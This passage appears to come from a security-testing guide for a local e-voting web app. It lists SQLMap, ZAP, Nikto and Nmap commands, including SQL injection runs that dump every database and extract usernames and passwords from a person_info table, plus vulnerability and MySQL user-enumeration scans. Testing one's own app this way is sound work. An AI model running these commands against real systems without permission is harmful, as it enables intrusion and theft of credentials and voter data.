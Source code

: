 ### SQLMap
```bash
# Test login form
sqlmap -u "http://localhost:8181/evoting/login1.php" --forms --batch --risk=3 --level=5

# Dump database
sqlmap -u "http://localhost:8181/evoting/login1.php" --forms --dump-all

# Get tables
sqlmap -u "http://localhost:8181/evoting/login1.php" --forms --tables

# Get columns
sqlmap -u "http://localhost:8181/evoting/login1.php" --forms -T person_info --columns

# Extract data
sqlmap -u "http://localhost:8181/evoting/login1.php" --forms -T person_info -C Username,Password --dump
```

### OWASP ZAP
```bash
# Quick scan
zap-cli quick-scan http://localhost:8181/evoting/

# Spider the site
zap-cli spider http://localhost:8181/evoting/

# Active scan
zap-cli active-scan http://localhost:8181/evoting/

# Generate report
zap-cli report -o report.html -f html
```

### Nikto
```bash
# Basic scan
nikto -h http://localhost:8181/evoting/

# Detailed scan
nikto -h http://localhost:8181/evoting/ -Tuning 123456789

# Save results
nikto -h http://localhost:8181/evoting/ -o scan_results.html -Format html
```

### Nmap
```bash
# Service detection
nmap -sV localhost -p 8181,3306,8080

# Vulnerability scan
nmap --script=vuln localhost -p 8181

# MySQL specific scripts
nmap --script=mysql-enum,mysql-databases,mysql-users localhost -p 3306
```
